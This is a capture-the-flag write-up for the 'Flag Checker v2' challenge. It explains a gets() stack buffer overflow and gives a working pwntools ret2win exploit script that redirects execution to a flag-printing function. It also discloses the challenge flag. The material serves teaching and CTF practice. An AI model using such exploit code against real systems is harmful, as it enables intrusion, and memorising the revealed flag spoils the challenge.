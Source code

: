 # Misc: Flag Checker v2 

**Author**: [redtrib3](https://github.com/redtrib3)
**Points**: 300
**Hint(s)**: https://ir0nstone.gitbook.io/notes/binexp/stack/return-oriented-programming/stack-alignment (50 pts)
**Flag**: `xploit{c0ntr0l_is_n0t_an_i11usion}`

**Challenge description:**
```
We made a flag checker (again), so that you can check if your flags are right.

**Connect:**<br>
`nc xploitctf.live 31337`
```

## Solve

This is a continuation of last year's crypto challenge flagCheckerv1 which involved a simple stack based buffer overflow.
When you check the provided source code, this is a similar challenge that uses `gets()`. gets() does not check for bounds and therefore will lead to bufferoverflow attacks.
The code has a interesting function get_flag() that reads flag from a env variable and prints it.

```c

void get_flag(){
    printf("\033[1;91m+---------[ FLAG! 🚩]----------+\033[0m\n");
    puts(getenv("Die_Flagge"));
}

```

Our aim is to overwrite the buffer, EBP and fill in the EIP with the memory address of this function, therefore getting the flag.
don't forget stack alignment since its a 64 bit system.

## Solve:
```python
## Exploit with right values for ret2win challenge

from pwn import *

binary = './FlagCheckerv2'
elf = ELF(binary)

offset = 344 # find by fuzzing
ret_gadget = 0x401016 # align the stack cause 64 bit
win_address = elf.symbols['get_flag']

payload = b'A' * offset + p64(ret_gadget) + p64(win_address)

local = 0

if local:
    conn = process(binary)
else:
    conn = remote('xploitctf.live',31337)

print("Sending payload...")
conn.sendline(payload)

# Interact with the shell (if successful)
conn.interactive()

```

